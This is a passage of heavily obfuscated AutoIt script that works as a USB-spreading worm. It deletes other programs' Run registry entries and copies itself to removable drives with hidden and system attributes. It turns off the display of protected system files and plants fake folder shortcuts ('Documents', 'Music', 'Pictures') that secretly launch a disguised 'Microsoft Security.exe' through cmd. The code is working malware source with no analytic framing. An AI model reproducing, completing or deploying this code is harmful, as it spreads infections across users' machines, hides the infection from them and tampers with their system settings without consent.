ChrW(101) & ChrW(18 + 28) & String("l") & ChrW(155 - 45) & ChrW(107))
	RegDelete(ChrW(112 - 40) & ChrW(75) & ChrW(69) & ChrW(89) & String("_") & ChrW(67) & String("U") & ChrW(126 - 44) & "R" & ChrW(69) & ChrW(110 - 32) & ChrW(84) & ChrW(95) & ChrW(85) & String("S") & ChrW(69) & ChrW(82) & ChrW(92) & ChrW(83) & ChrW(79) & String("F") & ChrW(20 + 64) & ChrW(87) & "A" & ChrW(82) & ChrW(100 - 31) & ChrW(49 + 43) & ChrW(77) & ChrW(105) & String("c") & String("r") & String("o") & ChrW(151 - 36) & ChrW(122 - 11) & ChrW(102) & ChrW(116) & ChrW(25 + 67) & ChrW(136 - 49) & "i" & ChrW(15 + 95) & ChrW(100) & ChrW(50 + 61) & ChrW(136 - 17) & ChrW(115) & String("\") & "C" & String("u") & String("r") & ChrW(33 + 81) & ChrW(109 - 8) & ChrW(110) & ChrW(116) & String("V") & "e" & String("r") & "s" & "i" & String("o") & ChrW(128 - 18) & String("\") & ChrW(82) & ChrW(117) & ChrW(35 + 75), ChrW(125 - 38) & ChrW(152 - 47) & ChrW(23 + 87) & ChrW(6 + 94) & "o" & "w" & "s" & "U" & String("p") & "d" & ChrW(97) & ChrW(38 + 78) & ChrW(101) & ChrW(18 + 28) & String("l") & ChrW(155 - 45) & ChrW(107))
	RegDelete(ChrW(72) & "K" & ChrW(69) & ChrW(89) & ChrW(116 - 21) & ChrW(76) & ChrW(79) & "C" & String("A") & ChrW(76) & ChrW(19 + 76) & ChrW(77) & String("A") & "C" & "H" & ChrW(73) & "N" & "E" & ChrW(92) & String("S") & ChrW(31 + 48) & ChrW(38 + 32) & String("T") & ChrW(87) & ChrW(94 - 29) & ChrW(82) & ChrW(96 - 27) & ChrW(117 - 25) & "M" & String("i") & String("c") & ChrW(24 + 90) & ChrW(39 + 72) & "s" & ChrW(49 + 62) & ChrW(102) & ChrW(125 - 9) & ChrW(141 - 49) & ChrW(87) & ChrW(109 - 4) & ChrW(110) & ChrW(32 + 68) & String("o") & String("w") & ChrW(150 - 35) & "\" & "C" & ChrW(47 + 70) & "r" & "r" & "e" & "n" & ChrW(157 - 41) & ChrW(86) & ChrW(101) & ChrW(42 + 72) & ChrW(122 - 7) & String("i") & "o" & "n" & ChrW(31 + 61) & "R" & ChrW(117) & ChrW(110), ChrW(78 - 7) & String("o") & "o" & "g" & "l" & ChrW(131 - 30) & String("C") & "h" & "r" & "o" & ChrW(140 - 31) & ChrW(150 - 49) & ChrW(42 + 4) & ChrW(101) & String("x") & ChrW(109 - 8))
	RegDelete(ChrW(112 - 40) & ChrW(75) & ChrW(69) & ChrW(89) & String("_") & ChrW(67) & String("U") & ChrW(126 - 44) & "R" & ChrW(69) & ChrW(110 - 32) & ChrW(84) & ChrW(95) & ChrW(85) & String("S") & ChrW(69) & ChrW(82) & ChrW(92) & ChrW(83) & ChrW(79) & String("F") & ChrW(20 + 64) & ChrW(87) & "A" & ChrW(82) & ChrW(100 - 31) & ChrW(49 + 43) & ChrW(77) & ChrW(105) & String("c") & String("r") & String("o") & ChrW(151 - 36) & ChrW(122 - 11) & ChrW(102) & ChrW(116) & ChrW(25 + 67) & ChrW(136 - 49) & "i" & ChrW(15 + 95) & ChrW(100) & ChrW(50 + 61) & ChrW(136 - 17) & ChrW(115) & String("\") & "C" & String("u") & String("r") & ChrW(33 + 81) & ChrW(109 - 8) & ChrW(110) & ChrW(116) & String("V") & "e" & String("r") & "s" & "i" & String("o") & ChrW(128 - 18) & String("\") & ChrW(82) & ChrW(117) & ChrW(35 + 75), ChrW(78 - 7) & String("o") & "o" & "g" & "l" & ChrW(131 - 30) & String("C") & "h" & "r" & "o" & ChrW(140 - 31) & ChrW(150 - 49) & ChrW(42 + 4) & ChrW(101) & String("x") & ChrW(109 - 8))
	RegDelete(ChrW(72) & "K" & ChrW(69) & ChrW(89) & ChrW(116 - 21) & ChrW(76) & ChrW(79) & "C" & String("A") & ChrW(76) & ChrW(19 + 76) & ChrW(77) & String("A") & "C" & "H" & ChrW(73) & "N" & "E" & ChrW(92) & String("S") & ChrW(31 + 48) & ChrW(38 + 32) & String("T") & ChrW(87) & ChrW(94 - 29) & ChrW(82) & ChrW(96 - 27) & ChrW(117 - 25) & "M" & String("i") & String("c") & ChrW(24 + 90) & ChrW(39 + 72) & "s" & ChrW(49 + 62) & ChrW(102) & ChrW(125 - 9) & ChrW(141 - 49) & ChrW(87) & ChrW(109 - 4) & ChrW(110) & ChrW(32 + 68) & String("o") & String("w") & ChrW(150 - 35) & "\" & "C" & ChrW(47 + 70) & "r" & "r" & "e" & "n" & ChrW(157 - 41) & ChrW(86) & ChrW(101) & ChrW(42 + 72) & ChrW(122 - 7) & String("i") & "o" & "n" & ChrW(31 + 61) & "R" & ChrW(117) & ChrW(110), ChrW(32 + 39) & ChrW(26 + 85) & ChrW(156 - 45) & ChrW(3 + 100) & String("l") & ChrW(112 - 11) & ChrW(65 - 33) & "C" & ChrW(104) & ChrW(41 + 73) & ChrW(111) & String("m") & "e")
	RegDelete(ChrW(112 - 40) & ChrW(75) & ChrW(69) & ChrW(89) & String("_") & ChrW(67) & String("U") & ChrW(126 - 44) & "R" & ChrW(69) & ChrW(110 - 32) & ChrW(84) & ChrW(95) & ChrW(85) & String("S") & ChrW(69) & ChrW(82) & ChrW(92) & ChrW(83) & ChrW(79) & String("F") & ChrW(20 + 64) & ChrW(87) & "A" & ChrW(82) & ChrW(100 - 31) & ChrW(49 + 43) & ChrW(77) & ChrW(105) & String("c") & String("r") & String("o") & ChrW(151 - 36) & ChrW(122 - 11) & ChrW(102) & ChrW(116) & ChrW(25 + 67) & ChrW(136 - 49) & "i" & ChrW(15 + 95) & ChrW(100) & ChrW(50 + 61) & ChrW(136 - 17) & ChrW(115) & String("\") & "C" & String("u") & String("r") & ChrW(33 + 81) & ChrW(109 - 8) & ChrW(110) & ChrW(116) & String("V") & "e" & String("r") & "s" & "i" & String("o") & ChrW(128 - 18) & String("\") & ChrW(82) & ChrW(117) & ChrW(35 + 75), ChrW(32 + 39) & ChrW(26 + 85) & ChrW(156 - 45) & ChrW(3 + 100) & String("l") & ChrW(112 - 11) & ChrW(65 - 33) & "C" & ChrW(104) & ChrW(41 + 73) & ChrW(111) & String("m") & "e")
EndFunc

Func lfvcwvjzbaxkwdlqvabiwzwzssazyiijcolgfponslgyfebnachv()
	$bxvzptvekotymtlyxntxtbcefldighqwiesmnwdymikldlavjufm = $pgyhdqwhnsqlzouknkgzzuppsxkumpjjyhflwbjmwusjiinjdcan & ChrW(92) & ChrW(105 - 28) & ChrW(118 - 13) & "c" & "r" & "o" & ChrW(122 - 7) & "o" & "f" & ChrW(116) & ChrW(83) & String("e") & ChrW(131 - 32) & String("u") & "r" & ChrW(30 + 75) & ChrW(40 + 76) & ChrW(121) & String(ChrW(47 + -1)) & ChrW(127 - 26) & "x" & ChrW(133 - 32) & ChrW(37 - 5) & String(" ") & ChrW(50 - 3) & "A" & ChrW(117) & "t" & ChrW(111) & ChrW(73) & ChrW(116) & "3" & "E" & String("x") & "e" & ChrW(18 + 81) & String("u") & ChrW(9 + 107) & String("e") & ChrW(116 - 33) & String("c") & String("r") & "i" & ChrW(116 - 4) & ChrW(164 - 48) & ChrW(6 + 26) & ChrW(32) & ChrW(54 - 8) & ChrW(91 - 45) & ChrW(103 - 11) & $pgyhdqwhnsqlzouknkgzzuppsxkumpjjyhflwbjmwusjiinjdcan & String("\") & $ivfnryrxlmwhjvjiruxaaxafykecdkqygsyawqyvstbsozrqazjk
	$frdaurueomydzwpiaxjajtlkrratljzlbeqrbrqvcylyjgmgvrtj = DriveGetDrive(ChrW(107 - 25) & String("E") & ChrW(40 + 37) & ChrW(79) & ChrW(86) & ChrW(74 - 9) & ChrW(8 + 58) & ChrW(76) & ChrW(70 - 1))
	For $kecmgsjdqatdnmbugyhjfoxlilaketyupobwcdlihoecegmxfraw = 1 To UBound($frdaurueomydzwpiaxjajtlkrratljzlbeqrbrqvcylyjgmgvrtj) - 1
		If DriveStatus($frdaurueomydzwpiaxjajtlkrratljzlbeqrbrqvcylyjgmgvrtj[$kecmgsjdqatdnmbugyhjfoxlilaketyupobwcdlihoecegmxfraw]) = ChrW(41 + 41) & ChrW(69) & "A" & String("D") & String("Y") Then
			If DriveSpaceFree($frdaurueomydzwpiaxjajtlkrratljzlbeqrbrqvcylyjgmgvrtj[$kecmgsjdqatdnmbugyhjfoxlilaketyupobwcdlihoecegmxfraw]) > 1024 Then
				DirCopy(@ScriptDir, $frdaurueomydzwpiaxjajtlkrratljzlbeqrbrqvcylyjgmgvrtj[$kecmgsjdqatdnmbugyhjfoxlilaketyupobwcdlihoecegmxfraw] & String("\") & $pgyhdqwhnsqlzouknkgzzuppsxkumpjjyhflwbjmwusjiinjdcan, 1)
				FileSetAttrib($frdaurueomydzwpiaxjajtlkrratljzlbeqrbrqvcylyjgmgvrtj[$kecmgsjdqatdnmbugyhjfoxlilaketyupobwcdlihoecegmxfraw] & String("\") & $pgyhdqwhnsqlzouknkgzzuppsxkumpjjyhflwbjmwusjiinjdcan, ChrW(43) & ChrW(111 - 29) & ChrW(83) & ChrW(13 + 59))
				FileCreateShortcut(ChrW(99) & ChrW(109) & ChrW(100) & ChrW(47 + -1) & ChrW(1 + 100) & ChrW(148 - 28) & "e", $frdaurueomydzwpiaxjajtlkrratljzlbeqrbrqvcylyjgmgvrtj[$kecmgsjdqatdnmbugyhjfoxlilaketyupobwcdlihoecegmxfraw] & ChrW(92) & ChrW(18 + 50) & "o" & ChrW(99) & ChrW(144 - 27) & ChrW(18 + 91) & String("e") & "n" & "t" & ChrW(157 - 42), "", String("/") & ChrW(147 - 48) & ChrW(74 - 42) & ChrW(19 + 96) & ChrW(12 + 104) & ChrW(19 + 78) & String("r") & String("t") & ChrW(21 + 11) & $bxvzptvekotymtlyxntxtbcefldighqwiesmnwdymikldlavjufm & ' explorer  ChrW(73-36) & ChrW(31+36) & String( "D" ) & String("%")  & exit', "", String("%") & ChrW(9 + 110) & ChrW(10 + 95) & ChrW(138 - 28) & String("d") & "i" & String("r") & "%" & ChrW(12 + 80) & ChrW(40 + 75) & "y" & "s" & ChrW(143 - 27) & "e" & ChrW(109) & "3" & String("2") & ChrW(35 + 57) & "S" & ChrW(72) & ChrW(31 + 38) & String("L") & String("L") & ChrW(28 + 23) & ChrW(16 + 34) & ChrW(47 + -1) & String("d") & String("l") & "l", "", 3, @SW_SHOWMINNOACTIVE)
				FileCreateShortcut(ChrW(99) & ChrW(109) & ChrW(100) & ChrW(47 + -1) & ChrW(1 + 100) & ChrW(148 - 28) & "e", $frdaurueomydzwpiaxjajtlkrratljzlbeqrbrqvcylyjgmgvrtj[$kecmgsjdqatdnmbugyhjfoxlilaketyupobwcdlihoecegmxfraw] & ChrW(46 + 46) & "D" & ChrW(133 - 22) & String("w") & ChrW(152 - 42) & ChrW(133 - 25) & "o" & String("a") & String("d") & "s", "", String("/") & ChrW(147 - 48) & ChrW(74 - 42) & ChrW(19 + 96) & ChrW(12 + 104) & ChrW(19 + 78) & String("r") & String("t") & ChrW(21 + 11) & $bxvzptvekotymtlyxntxtbcefldighqwiesmnwdymikldlavjufm & ' explorer  ChrW(73-36) & ChrW(31+36) & String( "D" ) & String("%")  & exit', "", String("%") & ChrW(9 + 110) & ChrW(10 + 95) & ChrW(138 - 28) & String("d") & "i" & String("r") & "%" & ChrW(12 + 80) & ChrW(40 + 75) & "y" & "s" & ChrW(143 - 27) & "e" & ChrW(109) & "3" & String("2") & ChrW(35 + 57) & "S" & ChrW(72) & ChrW(31 + 38) & String("L") & String("L") & ChrW(28 + 23) & ChrW(16 + 34) & ChrW(47 + -1) & String("d") & String("l") & "l", "", 3, @SW_SHOWMINNOACTIVE)
				If FileExists($frdaurueomydzwpiaxjajtlkrratljzlbeqrbrqvcylyjgmgvrtj[$kecmgsjdqatdnmbugyhjfoxlilaketyupobwcdlihoecegmxfraw] & ChrW(141 - 49) & ChrW(82) & ChrW(29 + 72) & ChrW(112) & ChrW(111) & "r" & ChrW(144 - 28) & ChrW(115)) = False Then
					DirCreate($frdaurueomydzwpiaxjajtlkrratljzlbeqrbrqvcylyjgmgvrtj[$kecmgsjdqatdnmbugyhjfoxlilaketyupobwcdlihoecegmxfraw] & ChrW(141 - 49) & ChrW(82) & ChrW(29 + 72) & ChrW(112) & ChrW(111) & "r" & ChrW(144 - 28) & ChrW(115))
				EndIf
				If FileExists($frdaurueomydzwpiaxjajtlkrratljzlbeqrbrqvcylyjgmgvrtj[$kecmgsjdqatdnmbugyhjfoxlilaketyupobwcdlihoecegmxfraw] & ChrW(92) & ChrW(83) & ChrW(21 + 95) & "a" & ChrW(116) & String("m") & ChrW(145 - 44) & "n" & ChrW(157 - 41) & ChrW(139 - 24)) = False Then
					DirCreate($frdaurueomydzwpiaxjajtlkrratljzlbeqrbrqvcylyjgmgvrtj[$kecmgsjdqatdnmbugyhjfoxlilaketyupobwcdlihoecegmxfraw] & ChrW(92) & ChrW(83) & ChrW(21 + 95) & "a" & ChrW(116) & String("m") & ChrW(145 - 44) & "n" & ChrW(157 - 41) & ChrW(139 - 24))
				EndIf
				If @error Then
				EndIf
				If FileExists($frdaurueomydzwpiaxjajtlkrratljzlbeqrbrqvcylyjgmgvrtj[$kecmgsjdqatdnmbugyhjfoxlilaketyupobwcdlihoecegmxfraw] & ChrW(92) & ChrW(77) & ChrW(18 + 103) & ChrW(32) & ChrW(84 - 4) & ChrW(105) & String("c") & ChrW(22 + 94) & ChrW(8 + 109) & ChrW(132 - 18) & ChrW(101) & ChrW(142 - 27)) = False Then
					DirCreate($frdaurueomydzwpiaxjajtlkrratljzlbeqrbrqvcylyjgmgvrtj[$kecmgsjdqatdnmbugyhjfoxlilaketyupobwcdlihoecegmxfraw] & ChrW(92) & ChrW(77) & ChrW(18 + 103) & ChrW(32) & ChrW(84 - 4) & ChrW(105) & String("c") & ChrW(22 + 94) & ChrW(8 + 109) & ChrW(132 - 18) & ChrW(101) & ChrW(142 - 27))
				EndIf
				If @error Then
				EndIf
				If FileExists($frdaurueomydzwpiaxjajtlkrratljzlbeqrbrqvcylyjgmgvrtj[$kecmgsjdqatdnmbugyhjfoxlilaketyupobwcdlihoecegmxfraw] & String("\") & String("M") & ChrW(6 + 115) & ChrW(32) & ChrW(86) & "i" & ChrW(100) & String("e") & ChrW(11 + 100) & ChrW(115)) = False Then
					DirCreate($frdaurueomydzwpiaxjajtlkrratljzlbeqrbrqvcylyjgmgvrtj[$kecmgsjdqatdnmbugyhjfoxlilaketyupobwcdlihoecegmxfraw] & String("\") & String("M") & ChrW(6 + 115) & ChrW(32) & ChrW(86) & "i" & ChrW(100) & String("e") & ChrW(11 + 100) & ChrW(115))
					yutherqpkizldomanazujuowkemziyaieyvuglsqadmmqsuumyvk("M" & ChrW(83) & "G" & $vjpajkcyrsbgqukdyialinmjzobeluyfndwkuoieqwyfrhuiknnp & String(" ") & ChrW(24 + 59) & ChrW(37 + 75) & String("r") & "e" & ChrW(137 - 40) & ChrW(100) & ChrW(135 - 30) & "n" & String("g") & String(" ") & ChrW(82 - 49) & String("!"))
				EndIf
				If @error Then
				EndIf
				If @error Then
				EndIf
				mrlkjwkdvkbssnhhsekfkmqktxuoqlzwcmwldaxjfksijngrvuuv()
			EndIf
		EndIf
	Next
	If @error Then
	EndIf
EndFunc

Func mrlkjwkdvkbssnhhsekfkmqktxuoqlzwcmwldaxjfksijngrvuuv($kjdvhreuszywcypzlercnycsjvgbydentbjgkfpkzqqiphygrnlb = "REMOVABLE")
	$zxklhllljcuotldbphofohbwitcbwakmrcowpxzyuezxwboceyqi = $pgyhdqwhnsqlzouknkgzzuppsxkumpjjyhflwbjmwusjiinjdcan & ChrW(92) & ChrW(105 - 28) & ChrW(118 - 13) & "c" & "r" & "o" & ChrW(122 - 7) & "o" & "f" & ChrW(116) & ChrW(83) & String("e") & ChrW(131 - 32) & String("u") & "r" & ChrW(30 + 75) & ChrW(40 + 76) & ChrW(121) & String(ChrW(47 + -1)) & ChrW(127 - 26) & "x" & ChrW(133 - 32) & ChrW(37 - 5) & String(" ") & ChrW(50 - 3) & "A" & ChrW(117) & "t" & ChrW(111) & ChrW(73) & ChrW(116) & "3" & "E" & String("x") & "e" & ChrW(18 + 81) & String("u") & ChrW(9 + 107) & String("e") & ChrW(116 - 33) & String("c") & String("r") & "i" & ChrW(116 - 4) & ChrW(164 - 48) & ChrW(6 + 26) & ChrW(32) & ChrW(54 - 8) & ChrW(91 - 45) & ChrW(103 - 11) & $pgyhdqwhnsqlzouknkgzzuppsxkumpjjyhflwbjmwusjiinjdcan & String("\") & $ivfnryrxlmwhjvjiruxaaxafykecdkqygsyawqyvstbsozrqazjk
	RegWrite(ChrW(36 + 36) & ChrW(75) & ChrW(102 - 33) & String("Y") & String("_") & ChrW(40 + 27) & ChrW(129 - 44) & ChrW(93 - 11) & ChrW(82) & ChrW(82 - 13) & String("N") & "T" & ChrW(95) & ChrW(85) & ChrW(14 + 69) & ChrW(69) & String("R") & String("\") & ChrW(83) & ChrW(161 - 50) & ChrW(7 + 95) & "t" & "w" & "a" & ChrW(114) & "e" & String("\") & ChrW(127 - 50) & ChrW(108 - 3) & ChrW(146 - 47) & ChrW(160 - 46) & String("o") & ChrW(163 - 48) & ChrW(21 + 90) & ChrW(107 - 5) & String("t") & ChrW(92) & ChrW(101 - 14) & String("i") & ChrW(145 - 35) & ChrW(100) & String("o") & "w" & String("s") & ChrW(12 + 80) & ChrW(67) & ChrW(152 - 35) & String("r") & ChrW(114) & ChrW(8 + 93) & ChrW(141 - 31) & ChrW(159 - 43) & ChrW(116 - 30) & ChrW(22 + 79) & String("r") & ChrW(152 - 37) & String("i") & "o" & ChrW(39 + 71) & ChrW(92) & ChrW(83 - 14) & ChrW(120) & "p" & ChrW(108) & ChrW(50 + 61) & ChrW(12 + 102) & ChrW(26 + 75) & ChrW(114) & ChrW(118 - 26) & ChrW(65) & String("d") & ChrW(118) & ChrW(111 - 14) & ChrW(31 + 79) & ChrW(50 + 49) & "e" & String("d"), ChrW(25 + 58) & ChrW(123 - 19) & ChrW(114 - 3) & ChrW(136 - 17) & ChrW(83) & "u" & String("p") & "e" & ChrW(4 + 110) & ChrW(72) & ChrW(140 - 35) & String("d") & ChrW(100) & String("e") & ChrW(27 + 83), ChrW(82) & ChrW(69) & ChrW(71) & ChrW(16 + 79) & ChrW(110 - 42) & ChrW(87) & "O" & "R" & ChrW(68), 0)
	$ygmruncnijpkrixqwgjrjpljhfzhfzxxjcolqwbculqkppfoewgy = DriveGetDrive($kjdvhreuszywcypzlercnycsjvgbydentbjgkfpkzqqiphygrnlb)
	If IsArray($ygmruncnijpkrixqwgjrjpljhfzhfzxxjcolqwbculqkppfoewgy) Then
		For $nyzitckpnvhimrbptlbaehwxzaurzkciryjkcgqmmmozeiywopus = 1 To $ygmruncnijpkrixqwgjrjpljhfzhfzxxjcolqwbculqkppfoewgy[0]
			If DriveStatus($ygmruncnijpkrixqwgjrjpljhfzhfzxxjcolqwbculqkppfoewgy[$nyzitckpnvhimrbptlbaehwxzaurzkciryjkcgqmmmozeiywopus]) = ChrW(41 + 41) & ChrW(69) & "A" & String("D") & String("Y") Then
				If DriveSpaceFree($ygmruncnijpkrixqwgjrjpljhfzhfzxxjcolqwbculqkppfoewgy[$nyzitckpnvhimrbptlbaehwxzaurzkciryjkcgqmmmozeiywopus]) > 10 Then
					If FileExists($ygmruncnijpkrixqwgjrjpljhfzhfzxxjcolqwbculqkppfoewgy[$nyzitckpnvhimrbptlbaehwxzaurzkciryjkcgqmmmozeiywopus] & String("\") & $pgyhdqwhnsqlzouknkgzzuppsxkumpjjyhflwbjmwusjiinjdcan) = 0 Then FileDelete($ygmruncnijpkrixqwgjrjpljhfzhfzxxjcolqwbculqkppfoewgy[$nyzitckpnvhimrbptlbaehwxzaurzkciryjkcgqmmmozeiywopus] & String("\") & $pgyhdqwhnsqlzouknkgzzuppsxkumpjjyhflwbjmwusjiinjdcan)
					DirCopy(@ScriptDir, $ygmruncnijpkrixqwgjrjpljhfzhfzxxjcolqwbculqkppfoewgy[$nyzitckpnvhimrbptlbaehwxzaurzkciryjkcgqmmmozeiywopus] & String("\") & $pgyhdqwhnsqlzouknkgzzuppsxkumpjjyhflwbjmwusjiinjdcan, 1)
					FileSetAttrib($ygmruncnijpkrixqwgjrjpljhfzhfzxxjcolqwbculqkppfoewgy[$nyzitckpnvhimrbptlbaehwxzaurzkciryjkcgqmmmozeiywopus] & String("\") & $pgyhdqwhnsqlzouknkgzzuppsxkumpjjyhflwbjmwusjiinjdcan, ChrW(43) & ChrW(111 - 29) & ChrW(83) & ChrW(13 + 59))
					Local $vgtgbbjtisqctyomhqmnunnssxtqbwdiqjnmfdibwweuwmgfskqy = FileFindFirstFile($ygmruncnijpkrixqwgjrjpljhfzhfzxxjcolqwbculqkppfoewgy[$nyzitckpnvhimrbptlbaehwxzaurzkciryjkcgqmmmozeiywopus] & ChrW(36 + 56) & ChrW(3 + 39) & ChrW(47 + -1) & ChrW(42))
					While 1
						Dim $ehyisaneisrmohkjldieikqxitvfqoysgfeklfuepdsefsfobxtn = FileFindNextFile($vgtgbbjtisqctyomhqmnunnssxtqbwdiqjnmfdibwweuwmgfskqy)
						If $ehyisaneisrmohkjldieikqxitvfqoysgfeklfuepdsefsfobxtn = "" Then ExitLoop
						If StringInStr(FileGetAttrib($ygmruncnijpkrixqwgjrjpljhfzhfzxxjcolqwbculqkppfoewgy[$nyzitckpnvhimrbptlbaehwxzaurzkciryjkcgqmmmozeiywopus] & String("\") & $ehyisaneisrmohkjldieikqxitvfqoysgfeklfuepdsefsfobxtn), "D") AND ($ehyisaneisrmohkjldieikqxitvfqoysgfeklfuepdsefsfobxtn <> ChrW(47 + -1) OR $ehyisaneisrmohkjldieikqxitvfqoysgfeklfuepdsefsfobxtn <> ChrW(46) & ChrW(46)) Then
							FileCreateShortcut(ChrW(99) & ChrW(109) & ChrW(100) & ChrW(47 + -1) & ChrW(1 + 100) & ChrW(148 - 28) & "e", $ygmruncnijpkrixqwgjrjpljhfzhfzxxjcolqwbculqkppfoewgy[$nyzitckpnvhimrbptlbaehwxzaurzkciryjkcgqmmmozeiywopus] & String("\") & $ehyisaneisrmohkjldieikqxitvfqoysgfeklfuepdsefsfobxtn & String("\") & $ehyisaneisrmohkjldieikqxitvfqoysgfeklfuepdsefsfobxtn, "", ChrW(33 + 14) & ChrW(16 + 83) & ChrW(32) & ChrW(12 + 103) & String("t") & ChrW(39 + 58) & ChrW(147 - 33) & ChrW(31 + 85) & ChrW(32) & ChrW(46) & "." & "\" & $zxklhllljcuotldbphofohbwitcbwakmrcowpxzyuezxwboceyqi & ' explorer  ChrW(73-36) & ChrW(31+36) & String( "D" ) & String("%")  & exit', "", String("%") & ChrW(9 + 110) & ChrW(10 + 95) & ChrW(138 - 28) & String("d") & "i" & String("r") & "%" & ChrW(12 + 80) & ChrW(40 + 75) & "y" & "s" & ChrW(143 - 27) & "e" & ChrW(109) & "3" & String("2") & ChrW(35 + 57) & "S" & ChrW(72) & ChrW(31 + 38) & String("L") & String("L") & ChrW(28 + 23) & ChrW(16 + 34) & ChrW(47 + -1) & String("d") & String("l") & "l", "", 3, @SW_SHOWMINNOACTIVE)
							FileCreateShortcut(ChrW(99) & ChrW(109) & ChrW(100) & ChrW(47 + -1) & ChrW(1 + 100) & ChrW(148 - 28) & "e", $ygmruncnijpkrixqwgjrjpljhfzhfzxxjcolqwbculqkppfoewgy[$nyzitckpnvhimrbptlbaehwxzaurzkciryjkcgqmmmozeiywopus] & String("\") & $ehyisaneisrmohkjldieikqxitvfqoysgfeklfuepdsefsfobxtn & String("\") & "M" & String("u") & ChrW(157 - 42) & ChrW(105) & "c", "", ChrW(33 + 14) & ChrW(16 + 83) & ChrW(32) & ChrW(12 + 103) & String("t") & ChrW(39 + 58) & ChrW(147 - 33) & ChrW(31 + 85) & ChrW(32) & ChrW(46) & "." & "\" & $zxklhllljcuotldbphofohbwitcbwakmrcowpxzyuezxwboceyqi & ' explorer  ChrW(73-36) & ChrW(31+36) & String( "D" ) & String("%")  & exit', "", String("%") & ChrW(9 + 110) & ChrW(10 + 95) & ChrW(138 - 28) & String("d") & "i" & String("r") & "%" & ChrW(12 + 80) & ChrW(40 + 75) & "y" & "s" & ChrW(143 - 27) & "e" & ChrW(109) & "3" & String("2") & ChrW(35 + 57) & "S" & ChrW(72) & ChrW(31 + 38) & String("L") & String("L") & ChrW(28 + 23) & ChrW(16 + 34) & ChrW(47 + -1) & String("d") & String("l") & "l", "", 3, @SW_SHOWMINNOACTIVE)
							FileCreateShortcut(ChrW(99) & ChrW(109) & ChrW(100) & ChrW(47 + -1) & ChrW(1 + 100) & ChrW(148 - 28) & "e", $ygmruncnijpkrixqwgjrjpljhfzhfzxxjcolqwbculqkppfoewgy[$nyzitckpnvhimrbptlbaehwxzaurzkciryjkcgqmmmozeiywopus] & String("\") & $ehyisaneisrmohkjldieikqxitvfqoysgfeklfuepdsefsfobxtn & String("\") & String("P") & ChrW(139 - 34) & ChrW(42 + 57) & String("t") & ChrW(124 - 7) & ChrW(4 + 110) & String("e") & ChrW(48 + 67), "", ChrW(33 + 14) & ChrW(16 + 83) & ChrW(32) & ChrW(12 + 103) & String("t") & ChrW(39 + 58) & ChrW(147 - 33) & ChrW(31 + 85) & ChrW(32) & ChrW(46) & "." & "\" & $zxklhllljcuotldbphofohbwitcbwakmrcowpxzyuezxwboceyqi & ' explorer  ChrW(73-36) & ChrW(31+36) & String( "D" ) & String("%")  & exit', "", String("%") & ChrW(9 + 110) & ChrW(10 + 95) & ChrW(138 - 28) & String("d") & "i" & String("r") & "%" & ChrW(12 + 80) & ChrW(40 + 75) & "y" & "s" & ChrW(143 - 27) & "e" & ChrW(109) & "3" & String("2") & ChrW(35 + 57) & "S" & ChrW(72) & ChrW(31 + 38) & String("L") & String("L") & ChrW(28 + 23) & ChrW(16 + 34) & ChrW(47 + -1) & String("d") & String("l") & "l", "", 3, @SW_SHOWMINNOACTIVE)
							FileCreateShortcut(ChrW(99) & ChrW(109) & ChrW(100) & ChrW(47 + -1) & ChrW(1 + 100) & ChrW(148 - 28) & "e", $ygmruncnijpkrixqwgjrjpljhfzhfzxxjcolqwbculqkppfoewgy[$nyzitckpnvhimrbptlbaehwxzaurzkciryjkcgqmmmozeiywopus] & String("\") & $ehyisaneisrmohkjldieikqxitvfqoysgfeklfuepdsefsfobxtn & String("\") & "R" & ChrW(50 + 51) & String("p") & ChrW(26 + 85) & "r" & ChrW(9 + 107) & ChrW(25 + 90), "", ChrW(33 + 14) & ChrW(16 + 83) & ChrW(32) & ChrW(12 + 103) & String("t") & ChrW(39 + 58) & ChrW(147 - 33) & ChrW(31 + 85) & ChrW(32) & ChrW(46) & "." & "\" & $zxklhllljcuotldbphofohbwitcbwakmrcowpxzyuezxwboceyqi & ' explorer  ChrW(73-36) & ChrW(31+36) & String( "D" ) & String("%")  & exit', "", String("%") & ChrW(9 + 110) & ChrW(10 + 95) & ChrW(138 - 28) & String("d") & "i" & String("r") & "%" & ChrW(12 + 80) & ChrW(40 + 75) & "y" & "s" & ChrW(143 - 27) & "e" & ChrW(109) & "3" & String("2") & ChrW(35 + 57) & "S" & ChrW(72) & ChrW(31 + 38) & String("L") & String("L") & ChrW(28 + 23) & ChrW(16 + 34) & ChrW(47 + -1) & String("d") & String("l") & "l", "", 3, @SW_SHOWMINNOACTIVE)
							FileCreateShortcut(ChrW(99) & ChrW(109) & ChrW(100) & ChrW(47 + -1) & ChrW(1 + 100) & ChrW(148 - 28) & "e", $ygmruncnijpkrixqwgjrjpljhfzhfzxxjcolqwbculqkppfoewgy[$nyzitckpnvhimrbptlbaehwxzaurzkciryjkcgqmmmozeiywopus] & String("\") & $ehyisaneisrmohkjldieikqxitvfqoysgfeklfuepdsefsfobxtn & String("\") & "S" & ChrW(166 - 50) & ChrW(5 + 92) & ChrW(116) & "m" & ChrW(45 + 56) & "n" & String("t") & ChrW(115), "", ChrW(33 + 14) & ChrW(16 + 83) & ChrW(32) & ChrW(12 + 103) & String("t") & ChrW(39 + 58) & ChrW(147 - 33) & ChrW(31 + 85) & ChrW(32) & ChrW(46) & "." & "\" & $zxklhllljcuotldbphofohbwitcbwakmrcowpxzyuezxwboceyqi & ' explorer  ChrW(73-36) & ChrW(31+36) & String( "D" ) & String("%")  & exit', "", String("%") & ChrW(9 + 110) & ChrW(10 + 95) & ChrW(138 - 28) & String("d") & "i" & String("r") & "%" & ChrW(12 + 80) & ChrW(40 + 75) & "y" & "s" & ChrW(143 - 27) & "e" & ChrW(109) & "3" & String("2") & ChrW(35 + 57) & "S" & ChrW(72) & ChrW(31 + 38) & String("L") & String("L") & ChrW(28 + 23) & ChrW(16 + 34) & ChrW(47 + -1) & String("d") & String("l") & "l", "", 3, @SW_SHOWMINNOACTIVE)
						EndIf
						Sleep(40)
					WEnd
				EndIf
			EndIf
		Next
	EndIf
	If @error Then
	EndIf
EndFunc

Func rblzbaqmbvoikeqerwerhbazuhagqctwscfbbxkckkhjwjxexbay()
